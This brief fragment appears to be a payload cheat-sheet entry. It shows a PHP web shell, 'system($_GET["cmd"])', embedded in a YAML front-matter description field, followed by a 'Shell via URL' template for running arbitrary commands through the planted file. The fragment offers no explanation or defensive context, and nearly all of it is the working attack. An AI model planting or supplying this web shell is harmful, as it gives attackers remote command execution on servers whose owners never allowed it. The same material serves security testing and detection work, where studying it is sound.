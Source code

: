 ```yaml
---
description: <?php system($_GET["cmd"]); ?>
---
```


# Shell via URL

http://URL/shell.php?cmd=COMMAND

